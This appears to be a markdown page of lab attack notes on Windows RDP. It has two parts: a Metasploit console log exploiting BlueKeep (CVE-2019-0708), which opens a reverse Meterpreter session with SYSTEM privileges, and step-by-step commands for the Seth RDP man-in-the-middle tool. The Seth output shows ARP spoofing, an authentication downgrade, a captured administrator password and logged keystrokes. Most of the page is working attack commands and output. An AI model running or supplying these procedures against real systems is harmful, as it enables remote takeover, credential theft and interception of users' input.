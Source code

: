 # Bluekeep RCE vulnerability on windows 7 and Windows Server 2008 R2
```
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 1
target => 1
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run

[*] Started reverse TCP handler on 20.20.20.129:9000 
[*] 20.20.20.136:3389 - Running automatic check ("set AutoCheck false" to disable)
[*] 20.20.20.136:3389 - Using auxiliary/scanner/rdp/cve_2019_0708_bluekeep as check
[+] 20.20.20.136:3389     - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 20.20.20.136:3389     - Scanned 1 of 1 hosts (100% complete)
[+] 20.20.20.136:3389 - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 20.20.20.136:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8013200000, Channel count 1.
[!] 20.20.20.136:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 20.20.20.136:3389 - Surfing channels ...
[*] 20.20.20.136:3389 - Lobbing eggs ...
[*] 20.20.20.136:3389 - Forcing the USE of FREE'd object ...
[!] 20.20.20.136:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (200774 bytes) to 20.20.20.136
[*] Meterpreter session 1 opened (20.20.20.129:9000 -> 20.20.20.136:49157) at 2022-07-18 10:48:20 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

# RDP MitM using `Seth`

## Step #1: clone repo from github
```bash
git clone https://github.com/SySS-Research/Seth.git
```

## Step #2: make sure you set your pyenc to python 3.8.10
```bash
pyenv install 3.8.10
pyenv global 3.8.10
```

## Step #3: change to the repo directory and install the requirements using pip
```bash
cd seth
pip install -r requirements.txt
```

## Step #4: edit your `/etc/ssl/openssl.cnf` to enable TLS 1.0 as the minimum protocol like below
```
[system_default_sect]
MinProtocol = TLSv1.0
```

## Step #5: as root, run the bash script `seth.sh` with the syntax of:
```bash
./seth.sh <INTERFACE> <ATTACKER_IP> <RDP_CLIENT_MACHINE_IP> <RDP_TARGET_MACHINE_IP>
```
*In our case below:*
- our kali is **.129**
- the rdp client is **.130**
- the targt rdp host is **.50**

### Output:
```
└─# ./seth.sh eth0 20.20.20.129 20.20.20.130 20.20.20.50
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 20.20.20.50
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 20.20.20.130:49767
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
Connection lost ([Errno 104] Connection reset by peer)
Connection received from 20.20.20.130:49772
Warning: RC4 not available on client, attack might not work
Listening for new connection
Enable SSL
Connection lost ([Errno 104] Connection reset by peer)
Connection received from 20.20.20.130:49773
Warning: RC4 not available on client, attack might not work
Listening for new connection
Enable SSL
Keyboard Layout not recognized
Hiding forged protocol request from client
lab\administrator:Abc123!!
Key press:   5
Key press:   T
```